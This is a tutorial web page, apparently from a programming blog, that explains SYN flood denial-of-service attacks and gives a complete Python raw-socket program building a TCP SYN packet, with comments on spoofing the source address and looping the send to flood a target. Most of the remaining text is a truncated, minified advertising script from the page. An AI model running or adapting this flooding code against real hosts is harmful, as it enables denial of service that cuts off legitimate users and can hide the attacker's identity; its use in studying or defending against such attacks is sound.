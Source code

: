 # Syn flood program in Python using raw sockets on Linux

By [Silver Moon](https://www.binarytides.com/author/admin/) | July 31, 2020

### Syn flood and raw sockets

A syn flood program sends out large number of tcp syn packets to a remote host on a particular port number.



Syn packets are intended to initiate a tcp connection. However if a large number of syn packets are send without any purpose, then then it would consume a lot of resources like memory on the remote system.

This concept is used in denial of service (dos) attacks.

It is like jamming the networking path of a remote machine or device. This results in the device being unable to serve actual requests from legitimate users.

In this article we are going to write a very simple syn flood program in python. A syn flood program works by creating syn packets which need raw socket support.

Linux has raw socket support natively and hence the program shown in this example shall work only on a linux system even though python itself is platform independent.

This is because the underlying socket libraries are different on windows and linux.

### Code

The theory behind the code is quite simple. Just create a raw socket and a tcp syn packet and send the packet over the raw socket. That is all that needs to be done.

Here is the program

```
'''
	Syn flood program in python using raw sockets (Linux)
'''

# some imports
import socket, sys
from struct import *

# checksum functions needed for calculation checksum
def checksum(msg):
	s = 0
	# loop taking 2 characters at a time
	for i in range(0, len(msg), 2):
		w = (ord(msg[i]) << 8) + (ord(msg[i+1]) )
		s = s + w
	
	s = (s>>16) + (s & 0xffff);
	#s = s + (s >> 16);
	#complement and mask to 4 byte short
	s = ~s & 0xffff
	
	return s

#create a raw socket
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
except socket.error , msg:
	print 'Socket could not be created. Error Code : ' + str(msg[0]) + ' Message ' + msg[1]
	sys.exit()

# tell kernel not to put in headers, since we are providing it
s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
	
# now start constructing the packet
packet = '';

source_ip = '192.168.1.101'
dest_ip = '192.168.1.1'	# or socket.gethostbyname('www.google.com')

# ip header fields
ihl = 5
version = 4
tos = 0
tot_len = 20 + 20	# python seems to correctly fill the total length, dont know how ??
id = 54321	#Id of this packet
frag_off = 0
ttl = 255
protocol = socket.IPPROTO_TCP
check = 10	# python seems to correctly fill the checksum
saddr = socket.inet_aton ( source_ip )	#Spoof the source ip address if you want to
daddr = socket.inet_aton ( dest_ip )

ihl_version = (version << 4) + ihl

# the ! in the pack format string means network order
ip_header = pack('!BBHHHBBH4s4s' , ihl_version, tos, tot_len, id, frag_off, ttl, protocol, check, saddr, daddr)

# tcp header fields
source = 1234	# source port
dest = 80	# destination port
seq = 0
ack_seq = 0
doff = 5	#4 bit field, size of tcp header, 5 * 4 = 20 bytes
#tcp flags
fin = 0
syn = 1
rst = 0
psh = 0
ack = 0
urg = 0
window = socket.htons (5840)	#	maximum allowed window size
check = 0
urg_ptr = 0

offset_res = (doff << 4) + 0
tcp_flags = fin + (syn << 1) + (rst << 2) + (psh <<3) + (ack << 4) + (urg << 5)

# the ! in the pack format string means network order
tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, check, urg_ptr)

# pseudo header fields
source_address = socket.inet_aton( source_ip )
dest_address = socket.inet_aton(dest_ip)
placeholder = 0
protocol = socket.IPPROTO_TCP
tcp_length = len(tcp_header)

psh = pack('!4s4sBBH' , source_address , dest_address , placeholder , protocol , tcp_length);
psh = psh + tcp_header;

tcp_checksum = checksum(psh)

# make the tcp header again and fill the correct checksum
tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)

# final full packet - syn packets dont have any data
packet = ip_header + tcp_header

#Send the packet finally - the port specified has no effect
s.sendto(packet, (dest_ip , 0 ))	# put this in a loop if you want to flood the target

#put the above line in a loop like while 1: if you want to flood
```

<iframe frameborder="0" src="https://edb514f6cdc2ecb4599c98f70539550f.safeframe.googlesyndication.com/safeframe/1-0-38/html/container.html" id="google_ads_iframe_/8691100/BinaryTides_S2S_InContent_ROS_Pos1_0" title="3rd party ad content" name="1-0-38;25374;<!doctype html><html><head><script>var jscVersion = 'r20211207';</script><script>var google_casm=[];</script></head><body leftMargin=&quot;0&quot; topMargin=&quot;0&quot; marginwidth=&quot;0&quot; marginheight=&quot;0&quot;><script>window.dicnf = {};</script><script data-jc=&quot;42&quot; data-jc-version=&quot;r20211207&quot; data-jc-flags=&quot;[&amp;quot;x%278446&amp;#39;9efotm(&amp;amp;20067;&amp;gt;8&amp;amp;&amp;gt;`dopb/%&amp;lt;1732261!=nehu`~&amp;quot;]&quot;>(function(){/*  Copyright The Closure Library Authors. SPDX-License-Identifier: Apache-2.0 */ 'use strict';var da=&quot;function&quot;==typeof Object.defineProperties?Object.defineProperty:function(a,b,c){if(a==Array.prototype||a==Object.prototype)return a;a[b]=c.value;return a};function ea(a){a=[&quot;object&quot;==typeof globalThis&amp;&amp;globalThis,a,&quot;object&quot;==typeof window&amp;&amp;window,&quot;object&quot;==typeof self&amp;&amp;self,&quot;object&quot;==typeof global&amp;&amp;global];for(var b=0;b<a.length;++b){var c=a[b];if(c&amp;&amp;c.Math==Math)return c}throw Error(&quot;Cannot find global object&quot;);}var fa=ea(this); function ha(a,b){if(b)a:{var c=fa;a=a.split(&quot;.&quot;);for(var d=0;d<a.length-1;d++){var f=a[d];if(!(f in c))break a;c=c[f]}a=a[a.length-1];d=c[a];b=b(d);b!=d&amp;&amp;null!=b&amp;&amp;da(c,a,{configurable:!0,writable:!0,value:b})}}ha(&quot;globalThis&quot;,function(a){return a||fa});var r=this||self;function t(a){t[&quot; &quot;](a);return a}t[&quot; &quot;]=function(){};var ia={},w=null; function ja(a,b){void 0===b&amp;&amp;(b=0);if(!w){w={};for(var c=&quot;ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789&quot;.split(&quot;&quot;),d=[&quot;+/=&quot;,&quot;+/&quot;,&quot;-_=&quot;,&quot;-_.&quot;,&quot;-_&quot;],f=0;5>f;f++){var g=c.concat(d[f].split(&quot;&quot;));ia[f]=g;for(var e=0;e<g.length;e++){var k=g[e];void 0===w[k]&amp;&amp;(w[k]=e)}}}b=ia[b];c=Array(Math.floor(a.length/3));d=b[64]||&quot;&quot;;for(f=g=0;g<a.length-2;g+=3){var h=a[g],l=a[g+1];k=a[g+2];e=b[h>>2];h=b[(h&amp;3)<<4|l>>4];l=b[(l&amp;15)<<2|k>>6];k=b[k&amp;63];c[f++]=e+h+l+k}e=0;k=d;switch(a.length-g){case 2:e= a[g+1],k=b[(e&amp;15)<<2]||d;case 1:a=a[g],c[f]=b[a>>2]+b[(a&amp;3)<<4|e>>4]+k+d}return c.join(&quot;&quot;)};var ka=&quot;function&quot;===typeof Uint8Array;const x=Symbol(void 0);function z(a){Object.isFrozen(a)||(x?a[x]|=1:void 0!==a.g?a.g|=1:Object.defineProperties(a,{g:{value:1,configurable:!0,writable:!0,enumerable:!1}}));return a};function la(a){return null!==a&amp;&amp;&quot;object&quot;===typeof a&amp;&amp;!Array.isArray(a)&amp;&amp;a.constructor===Object}let A;function ma(a){switch(typeof a){case &quot;number&quot;:return isFinite(a)?a:String(a);case &quot;object&quot;:if(a&amp;&amp;!Array.isArray(a)&amp;&amp;ka&amp;&amp;null!=a&amp;&amp;a instanceof Uint8Array)return ja(a)}return a};function na(a,b){if(null!=a)return Array.isArray(a)||la(a)?B(a,b):b(a)}function B(a,b){if(Array.isArray(a)){var c=Array(a.length);for(let f=0;f<a.length;f++)c[f]=na(a[f],b);if(b=Array.isArray(a)){var d;x?d=a[x]:d=a.g;b=(null==d?0:d)&amp;1}b&amp;&amp;z(c);return c}d={};for(c in a)d[c]=na(a[c],b);return d}function oa(a){if(a&amp;&amp;&quot;object&quot;==typeof a&amp;&amp;a.toJSON)return a.toJSON();a=ma(a);return Array.isArray(a)?B(a,oa):a};let pa;function D(){var a=void 0,b=qa,c=pa;pa=null;a||(a=c);c=this.constructor.v;a||(a=c?[c]:[]);this.h=(c?0:-1)-(this.constructor.u||0);this.g=a;a:{c=this.g.length;a=c-1;if(c&amp;&amp;(c=this.g[a],la(c))){this.j=a-this.h;this.i=c;break a}this.j=Number.MAX_VALUE}if(b)for(a=0;a<b.length;a++)if(c=b[a],c<this.j){c+=this.h;var d=this.g[c];d?Array.isArray(d)&amp;&amp;z(d):this.g[c]=ra}else sa(this),(d=this.i[c])?Array.isArray(d)&amp;&amp;z(d):this.i[c]=ra}const ra=Object.freeze(z([])); function sa(a){let b=a.j+a.h;a.g[b]||(a.i=a.g[b]={})}function E(a,b,c){b>=a.j?(sa(a),a.i[b]=c):a.g[b+a.h]=c;return a}D.prototype.toJSON=function(){const a=this.g;return A?a:B(a,oa)};function ta(a,b){return ma(b)}D.prototype.toString=function(){return this.g.toString()};class ua{constructor(a){this.key=a}}var F=class extends ua{constructor(a){super(a);this.defaultValue=!1}};var va=new F(&quot;45357156&quot;),wa=new F(&quot;45350890&quot;);var G=(a,b)=>&quot;&amp;adurl=&quot;==a.substring(a.length-7)?a.substring(0,a.length-7)+b+&quot;&amp;adurl=&quot;:a+b;/*  SPDX-License-Identifier: Apache-2.0 */ function H(a,b,c){a.addEventListener&amp;&amp;a.addEventListener(b,c,!1)};var xa=RegExp(&quot;^(?:([^:/?#.]+):)?(?://(?:([^\\\\/?#]*)@)?([^\\\\/?#]*?)(?::([0-9]+))?(?=[\\\\/?#]|$))?([^?#]+)?(?:\\?([^#]*))?(?:#([\\s\\S]*))?$&quot;);function I(a){try{var b;if(b=!!a&amp;&amp;null!=a.location.href)a:{try{t(a.foo);b=!0;break a}catch(c){}b=!1}return b}catch(c){return!1}}function ya(){if(!globalThis.crypto)return Math.random();try{const a=new Uint32Array(1);globalThis.crypto.getRandomValues(a);return a[0]/65536/65536}catch(a){return Math.random()}}function J(a,b){if(a)for(const c in a)Object.prototype.hasOwnProperty.call(a,c)&amp;&amp;b.call(void 0,a[c],c,a)}function Da(a){a=void 0===a?document:a;return a.createElement(&quot;img&quot;)};function L(a,b,c=null){Ea(a,b,c)}function Ea(a,b,c){a.google_image_requests||(a.google_image_requests=[]);const d=Da(a.document);if(c){const f=g=>{c&amp;&amp;c(g);d.removeEventListener&amp;&amp;d.removeEventListener(&quot;load&quot;,f,!1);d.removeEventListener&amp;&amp;d.removeEventListener(&quot;error&quot;,f,!1)};H(d,&quot;load&quot;,f);H(d,&quot;error&quot;,f)}d.src=b;a.google_image_requests.push(d)} var Ga=()=>{let a=&quot;https://pagead2.googlesyndication.com/pagead/gen_204?id=badpubwin&quot;;J({stack:Error().stack,aswift:window.google_async_iframe_id},(b,c)=>{b&amp;&amp;(a+=`&amp;${c}=${encodeURIComponent(b)}`)});Fa(a)},Fa=a=>{var b=window;b.fetch?b.fetch(a,{keepalive:!0,credentials:&quot;include&quot;,redirect:&quot;follow&quot;,method:&quot;get&quot;,mode:&quot;no-cors&quot;}):L(b,a)};let M=0;function Ha(a,b=null){return b&amp;&amp;b.getAttribute(&quot;data-jc&quot;)===String(a)?b:document.querySelector(`[${&quot;data-jc&quot;}=&quot;${a}&quot;]`)};function Ia(a){N||(N=new Ja);const b=N.g[a.key];if(a instanceof F)return&quot;boolean&quot;===typeof b?b:a.defaultValue;throw Error();}var Ka=class{constructor(){this.g={}}};var Ja=class extends Ka{constructor(){super();var a=Ha(M,document.currentScript);a=a&amp;&amp;a.getAttribute(&quot;data-jc-flags&quot;)||&quot;&quot;;try{const b=JSON.parse(a)[0];a=&quot;&quot;;for(let c=0;c<b.length;c++)a+=String.fromCharCode(b.charCodeAt(c)^&quot;\u0003\u0007\u0003\u0007\b\u0004\u0004\u0006\u0005\u0003&quot;.charCodeAt(c%10));this.g=JSON.parse(a)}catch(b){}}},N;var La=document,Ma=window;var Na=!!window.google_async_iframe_id;let O=Na&amp;&amp;window.parent||window;class Oa{constructor(a,b){this.error=a;this.context=b.context;this.msg=b.message||&quot;&quot;;this.id=b.id||&quot;jserror&quot;;this.meta={}}};const Pa=RegExp(&quot;^https?://(\\w|-)+\\.cdn\\.ampproject\\.(net|org)(\\?|/|$)&quot;);var Qa=class{constructor(a,b){this.g=a;this.h=b}},Ra=class{constructor(a,b){this.url=a;this.m=!!b;this.depth=null}};function P(a,b){const c={};c[a]=b;return[c]}function Sa(a,b,c,d,f){const g=[];J(a,function(e,k){(e=Ta(e,b,c,d,f))&amp;&amp;g.push(k+&quot;=&quot;+e)});return g.join(b)} function Ta(a,b,c,d,f){if(null==a)return&quot;&quot;;b=b||&quot;&amp;&quot;;c=c||&quot;,$&quot;;&quot;string&quot;==typeof c&amp;&amp;(c=c.split(&quot;&quot;));if(a instanceof Array){if(d=d||0,d<c.length){const g=[];for(let e=0;e<a.length;e++)g.push(Ta(a[e],b,c,d+1,f));return g.join(c[d])}}else if(&quot;object&quot;==typeof a)return f=f||0,2>f?encodeURIComponent(Sa(a,b,c,d,f+1)):&quot;...&quot;;return encodeURIComponent(String(a))}function Ua(a){let b=1;for(const c in a.h)b=c.length>b?c.length:b;return 3997-b-a.i.length-1} function Va(a,b,c){b=b+&quot;//pagead2.googlesyndication.com&quot;+c;let d=Ua(a)-c.length;if(0>d)return&quot;&quot;;a.g.sort(function(g,e){return g-e});c=null;let f=&quot;&quot;;for(let g=0;g<a.g.length;g++){const e=a.g[g],k=a.h[e];for(let h=0;h<k.length;h++){if(!d){c=null==c?e:c;break}let l=Sa(k[h],a.i,&quot;,$&quot;);if(l){l=f+l;if(d>=l.length){d-=l.length;b+=l;f=a.i;break}c=null==c?e:c}}}a=&quot;&quot;;null!=c&amp;&amp;(a=f+&quot;trn=&quot;+c);return b+a}class Q{constructor(){this.i=&quot;&amp;&quot;;this.h={};this.j=0;this.g=[]}};function Wa(){var a=R,b=S.google_srt;0<=b&amp;&amp;1>=b&amp;&amp;(a.g=b)}function T(a,b,c,d,f,g){if((d?a.g:Math.random())<(f||.01))try{let e;c instanceof Q?e=c:(e=new Q,J(c,(h,l)=>{var m=e,n=m.j++;h=P(l,h);m.g.push(n);m.h[n]=h}));const k=Va(e,a.h,&quot;/pagead/gen_204?id=&quot;+b+&quot;&amp;&quot;);k&amp;&amp;(&quot;undefined&quot;!==typeof g?L(r,k,g):L(r,k))}catch(e){}}class Xa{constructor(){var a=void 0===a?Ma:a;this.h=&quot;http:&quot;===a.location.protocol?&quot;http:&quot;:&quot;https:&quot;;this.g=Math.random()}};let U=null;var Ya=()=>{const a=r.performance;return a&amp;&amp;a.now&amp;&amp;a.timing?Math.floor(a.now()+a.timing.navigationStart):Date.now()},Za=()=>{const a=r.performance;return a&amp;&amp;a.now?a.now():null};class $a{constructor(a,b){var c=Za()||Ya();this.label=a;this.type=b;this.value=c;this.duration=0;this.uniqueId=Math.random();this.slotId=void 0}};const V=r.performance,ab=!!(V&amp;&amp;V.mark&amp;&amp;V.measure&amp;&amp;V.clearMarks),W=function(a){let b=!1,c;return function(){b||(c=a(),b=!0);return c}}(()=>{var a;if(a=ab){var b;if(null===U){U=&quot;&quot;;try{a=&quot;&quot;;try{a=r.top.location.hash}catch(c){a=r.location.hash}a&amp;&amp;(U=(b=a.match(/\bdeid=([\d,]+)/))?b[1]:&quot;&quot;)}catch(c){}}b=U;a=!!b.indexOf&amp;&amp;0<=b.indexOf(&quot;1337&quot;)}return a});function bb(a){a&amp;&amp;V&amp;&amp;W()&amp;&amp;(V.clearMarks(`goog_${a.label}_${a.uniqueId}_start`),V.clearMarks(`goog_${a.label}_${a.uniqueId}_end`))} class cb{constructor(){var a=S;this.h=[];this.i=a||r;let b=null;a&amp;&amp;(a.google_js_reporting_queue=a.google_js_reporting_queue||[],this.h=a.google_js_reporting_queue,b=a.google_measure_js_timing);this.g=W()||(null!=b?b:1>Math.random())}start(a,b){if(!this.g)return null;a=new $a(a,b);b=`goog_${a.label}_${a.uniqueId}_start`;V&amp;&amp;W()&amp;&amp;V.mark(b);return a}end(a){if(this.g&amp;&amp;&quot;number&quot;===typeof a.value){a.duration=(Za()||Ya())-a.value;var b=`goog_${a.label}_${a.uniqueId}_end`;V&amp;&amp;W()&amp;&amp;V.mark(b);!this.g||2048<this.h.length|| this.h.push(a)}}};function X(a){let b=a.toString();a.name&amp;&amp;-1==b.indexOf(a.name)&amp;&amp;(b+=&quot;: &quot;+a.name);a.message&amp;&amp;-1==b.indexOf(a.message)&amp;&amp;(b+=&quot;: &quot;+a.message);if(a.stack){a=a.stack;try{-1==a.indexOf(b)&amp;&amp;(a=b+&quot;\n&quot;+a);let c;for(;a!=c;)c=a,a=a.replace(/((https?:\/..*\/)[^\/:]*:\d+(?:.|\n)*)\2/,&quot;$1&quot;);b=a.replace(/\n */g,&quot;\n&quot;)}catch(c){}}return b} function db(a,b){let c,d;try{a.g&amp;&amp;a.g.g?(d=a.g.start((903).toString(),3),c=b(),a.g.end(d)):c=b()}catch(f){b=!0;try{bb(d),b=a.s(903,new Oa(f,{message:X(f)}),void 0,void 0)}catch(g){a.o(217,g)}if(b){let g,e;null==(g=window.console)||null==(e=g.error)||e.call(g,f)}else throw f;}return c}function eb(a){var b=Y;return(...c)=>db(b,()=>a.apply(void 0,c))} class fb{constructor(){var a=Z;this.i=R;this.h=null;this.s=this.o;this.g=void 0===a?null:a;this.j=!1}pinger(){return this.i}o(a,b,c,d,f){f=f||&quot;jserror&quot;;let g;try{const v=new Q;var e=v;e.g.push(1);e.h[1]=P(&quot;context&quot;,a);b.error&amp;&amp;b.meta&amp;&amp;b.id||(b=new Oa(b,{message:X(b)}));if(b.msg){e=v;var k=b.msg.substring(0,512);e.g.push(2);e.h[2]=P(&quot;msg&quot;,k)}var h=b.meta||{};b=h;if(this.h)try{this.h(b)}catch(y){}if(d)try{d(b)}catch(y){}d=v;h=[h];d.g.push(3);d.h[3]=h;d=r;h=[];b=null;do{var l=d;if(I(l)){var m=l.location.href; b=l.document&amp;&amp;l.document.referrer||null}else m=b,b=null;h.push(new Ra(m||&quot;&quot;));try{d=l.parent}catch(y){d=null}}while(d&amp;&amp;l!=d);for(let y=0,za=h.length-1;y<=za;++y)h[y].depth=za-y;l=r;if(l.location&amp;&amp;l.location.ancestorOrigins&amp;&amp;l.location.ancestorOrigins.length==h.length-1)for(m=1;m<h.length;++m){var n=h[m];n.url||(n.url=l.location.ancestorOrigins[m-1]||&quot;&quot;,n.m=!0)}var u=h;let K=new Ra(r.location.href,!1);l=null;const aa=u.length-1;for(n=aa;0<=n;--n){var p=u[n];!l&amp;&amp;Pa.test(p.url)&amp;&amp;(l=p);if(p.url&amp;&amp;!p.m){K= p;break}}p=null;const jb=u.length&amp;&amp;u[aa].url;0!=K.depth&amp;&amp;jb&amp;&amp;(p=u[aa]);g=new Qa(K,p);if(g.h){u=v;var q=g.h.url||&quot;&quot;;u.g.push(4);u.h[4]=P(&quot;top&quot;,q)}var ba={url:g.g.url||&quot;&quot;};if(g.g.url){var ca=g.g.url.match(xa),C=ca[1],Aa=ca[3],Ba=ca[4];q=&quot;&quot;;C&amp;&amp;(q+=C+&quot;:&quot;);Aa&amp;&amp;(q+=&quot;//&quot;,q+=Aa,Ba&amp;&amp;(q+=&quot;:&quot;+Ba));var Ca=q}else Ca=&quot;&quot;;C=v;ba=[ba,{url:Ca}];C.g.push(5);C.h[5]=ba;T(this.i,f,v,this.j,c)}catch(v){try{T(this.i,f,{context:&quot;ecmserr&quot;,rctx:a,msg:X(v),url:g&amp;&amp;g.g.url},this.j,c)}catch(K){}}return!0}};class gb{};let R,Y;if(Na&amp;&amp;!I(O)){let a=&quot;.&quot;+La.domain;try{for(;2<a.split(&quot;.&quot;).length&amp;&amp;!I(O);)La.domain=a=a.substr(a.indexOf(&quot;.&quot;)+1),O=window.parent}catch(b){}I(O)||(O=window)}O!==window&amp;&amp;.01>Math.random()&amp;&amp;Ga();const S=O,Z=new cb;var hb=()=>{if(!S.google_measure_js_timing){var a=Z;a.g=!1;a.h!=a.i.google_js_reporting_queue&amp;&amp;(W()&amp;&amp;Array.prototype.forEach.call(a.h,bb,void 0),a.h.length=0)}}; (a=>{R=null!=a?a:new Xa;&quot;number&quot;!==typeof S.google_srt&amp;&amp;(S.google_srt=Math.random());Wa();Y=new fb;Y.h=b=>{var c=M;0!==c&amp;&amp;(b.jc=String(c),c=(c=Ha(c,document.currentScript))&amp;&amp;c.getAttribute(&quot;data-jc-version&quot;)||&quot;unknown&quot;,b.shv=c)};Y.j=!0;&quot;complete&quot;==S.document.readyState?hb():Z.g&amp;&amp;H(S,&quot;load&quot;,()=>{hb()})})();function ib(){var a,b;const c=window;if(c.gmaSdk||(null===(a=c.webkit)||void 0===a?0:a.messageHandlers.getGmaViewSignals))return c;try{const d=window.parent;if(d.gmaSdk||(null===(b=d.webkit)||void 0===b?0:b.messageHandlers.getGmaViewSignals))return d}catch(d){}return null} function kb(a,b={},c=()=>{},d=()=>{}){const f=String(Math.floor(2147483647*ya()));let g=0;const e=k=>{try{var h=&quot;object&quot;===typeof k.data?k.data:JSON.parse(k.data);f===h.paw_id&amp;&amp;(window.clearTimeout(g),window.removeEventListener(&quot;message&quot;,e),h.signal?c(h.signal):h.error&amp;&amp;d(h.error))}catch(m){k={msg:&quot;postmessageError&quot;,err:m instanceof Error?m.message:&quot;nonError&quot;,data:null==k.data?&quot;null&quot;:500<k.data.length?k.data.substring(0,500):k.data};h=gb;var l=&quot;l&quot;;h.l&amp;&amp;h.hasOwnProperty(l)||(l=new h,h.l=l);h=[];!k.eid&amp;&amp; h.length&amp;&amp;(k.eid=h.toString());T(R,&quot;paw_sigs&quot;,k,!0,void 0,void 0)}};window.addEventListener(&quot;message&quot;,eb(k=>{e(k)}));a.postMessage(Object.assign({paw_id:f},b));g=window.setTimeout(()=>{window.removeEventListener(&quot;message&quot;,e);d(&quot;PAW GMA postmessage timed out.&quot;)},200)};var lb=class extends D{},qa=[6];const mb=&quot;platform platformVersion architecture model uaFullVersion bitness&quot;.split(&quot; &quot;);var nb=()=>{var a=window;return a.navigator&amp;&amp;a.navigator.userAgentData&amp;&amp;&quot;function&quot;===typeof a.navigator.userAgentData.getHighEntropyValues?a.navigator.userAgentData.getHighEntropyValues(mb).then(b=>{var c=new lb;c=E(c,1,b.platform);c=E(c,2,b.platformVersion);c=E(c,3,b.architecture);c=E(c,4,b.model);c=E(c,5,b.uaFullVersion);return E(c,9,b.bitness)}):null};class ob{constructor(){this.promise=new Promise(a=>{this.g=a})}};window.viewReq=[];const pb=a=>{const b=new Image;b.src=a.replace(&quot;&amp;amp;&quot;,&quot;&amp;&quot;);window.viewReq.push(b)},qb=a=>{fetch(a,{keepalive:!0,credentials:&quot;include&quot;,redirect:&quot;follow&quot;,method:&quot;get&quot;,mode:&quot;no-cors&quot;}).catch(()=>{pb(a)})},rb=a=>{window.fetch?qb(a):pb(a)};M=42; window.vu=a=>{var b,c,d,f;const g=Ia(va),e=ib();g&amp;&amp;null!=(null===(b=null===e||void 0===e?void 0:e.gmaSdk)||void 0===b?void 0:b.getViewSignals)&amp;&amp;(b=null===(c=null===e||void 0===e?void 0:e.gmaSdk)||void 0===c?void 0:c.getViewSignals())&amp;&amp;(a=G(a,&quot;&amp;ms=&quot;+b));const k=[];c=()=>{const h=new ob;k.push(h.promise);return h.g};if(b=Ia(wa)){const h=nb();if(null!=h){const l=c();h.then(m=>{a:{A=!0;try{var n=JSON.stringify(m.toJSON(),ta);break a}finally{A=!1}n=void 0}m=n;n=[];for(var u=0,p=0;p<m.length;p++){var q= m.charCodeAt(p);255<q&amp;&amp;(n[u++]=q&amp;255,q>>=8);n[u++]=q}m=ja(n,3);0<m.length&amp;&amp;(a=G(a,&quot;&amp;uach=&quot;+m));l()})}}if(g&amp;&amp;null!=(null===(d=null===e||void 0===e?void 0:e.webkit)||void 0===d?void 0:d.messageHandlers.getGmaViewSignals)){const h=c();kb(null===(f=null===e||void 0===e?void 0:e.webkit)||void 0===f?void 0:f.messageHandlers.getGmaViewSignals,{},l=>{a=G(a,&quot;&amp;&quot;+l);h()},()=>{h()})}b||g?Promise.all(k).then(()=>{rb(a)}):rb(a)};}).call(this);</script><script>vu(&quot;https://securepubads.g.doubleclick.net/pagead/adview?ai\x3dCCkTUrvK0YfX1PNbb5OUPoaSuqAX6gNyrXLqBoaKJAcCNtwEQASAAYM2Q7ICsA4IBF2NhLXB1Yi0yMDQ5OTQ4MTgwMDc5MjY0yAEJ4AIAqAMBqgStAk_QSl4ADIYj6DDpkLtnV0h4JrYi_OgXmL7tFM1EVeYpzjwQDGG4D2qvc7uctkyCJmFbU0VvO53Qf31oc_SCY0pjNx-RXIr8IfuRKlzY31Y3xw10Zj9oMnTfAoTuYZsE8z4qndqMvP1xtHEvIVAGznJp5pDG6uCYdooCMETvKsf7BF2Vhbcf0lYCxHFPL11BnXUFpz4yyCcRO7zBgwqapoPfN2KehNLekqc3B3cYenb-nNqxk_mH_Doq9fwAFNkBEqbUAvfz9R3kfa6cb-T06QrvEbUzqEuY9_IaMUkW-Aaz_OjAvLHXotOO5uXtvPJ1wHeCa2k-IGu4CGUrTI5VjL5faMbuZzYDwPVjGs8iVY30ttPfzac4fUNNaNemoaQH9AU01uFzHScHyDvSA2LgBAGABoyKj7-Qj9rAMaAGIYgHAZAHAqgHpr4bqAeW2BuoB6qbsQKoB9-fsQLYBwDSCAIQAoAKA_oLAggBgAwB0BUBgBcBshccChoSFHB1Yi0yMDQ5OTQ4MTgwMDc5MjY0GJyTDw\x26sigh\x3dl9DoFn01j1A\x26uach_m\x3d[UACH]\x26cid\x3dCAQSQgCNIrLM0ttAbp4UZ0muCnlPW9TmR_cUgTGaPuANPHarQhRweERryDXJ9yvqDnH0Ie17PgEv9Uaj0YkJRpkmR_x6VhgB&quot;)</script><script>vu(&quot;https://pr.ybp.yahoo.com/bw/adx/imp/zuOXe3AQYNwRscddFxNzjIonHjdLL8LD9I05RqVVDFwWBWI6FsPkrm9oiDhKpjgAmFSDBfeRhCl7GVK2gJpI8VpgWUGEBkVjvVQCtgZhMPMMKWu6TG6k4FAIRRyK4FkdaUpH8rzrGbQnNyfFANdOqs6qONMowkKLh3MEjuaDK9Ny-qIL01IXTtCVm-s9i-oQ4cKHHa3nbOloQTerSEzO0cAmfhdorXaR4NusA0whxeb1PdjX8-yJSjGEmjxR1fn-JcKCIctyqq7VLpuiz9_h0qCnaGg8vXHjETuezbWMZEQLAuD631l-L6j2VG2laTGO6g0XtLYq4621ssFh5GXUBvt8onr2eqghBPxIf3tHgfMOVXFfoYCc5MLYTa46dtIOSsahdbAeCUmcwzloX3uNmZNvruQNU_GjHaLH2KJzSmqZ9WXNp9d91K6JTByiFApzqbYa2j8f-EW2MuxSR46CiqUoa7OhHZXjZChwy3SbJcZAmYp4rK1N4WIM4Xm1ZM4aN20DENZcHO8YxNEgSuLakSwrOqrFvzG2Key0g-o1CpyQyZYcyTDGEKlGdDGph9dTUFgixuQT0RFwelHJ5IAVKkN7rtChyOVWAbSrQ5HJPD_K1iyIltzdUZ3TdRjIyd44s6f89wisMj2HJHLaLYd60OdOO0GkqpKZ5yCktCAZ-RPfWGUcFttHSxj-YD_whj70UVEGfOJIprQbsMGpzogK3lh8wdvtTssT8qKW1nj2N5G5T-F5uXCYC1R3pv13NUtCAYXZBqUZQhweHFxsIl66bc1EVTk_NivUCjVqz7x5lFijlyUiRAiYCLXYqOb2xpIfk2SlLWPEqlo_NSmitIO3izZH9rxpk8ZGVBZRA52rQd51TUuyVAD7Kg6t1x9uElsEqB8GiPqYWRKHw2hVBWFH_PCGkhnuOhQM3vt_B4IZX3fURQ9ulFqOwg0IqXprqCjTcTAkNfQrrOjJYqf9EXsOAPfQu6tp1LFxJakczyO26Onl8EVqq6YehA16Vu_dngrPpSIJNj6OzgwSsBHx_yBhAXRYRvdnMAdy0jfnidRTlcdVVrOLoAKs-ZjJrGyWcdETl6tG3UzRV-2C_j6iNCiaPPmAz6cOBbjQYVRblUVhhX9X__yeNB385O_zMmVZjLuegaWcmujVFL-Dxh5LHOwqxLS1izXVaZqRak1wp0yAjQjrDaBfS86mhjrUNJCNFz4qBs5-aq1LuetL2ylw8uWJ52tIU9OwU_tSlMUFzioxrD-lsx1Y7_z6gBVDrMfdLG09eGe-t41YQ73KkuUnDLFGV2KP_7a0Zf7q1WSMwfjrIfdGQKKkKu66Pap3pw2V70K06gQdz7QXZNW58qFP9Q0z3xuHIpnpoEBRNc52ceIWuC_tdb7zGiL-IuT5QJG-TPnuss1B2DQZzReqkCPYSKhc5RUj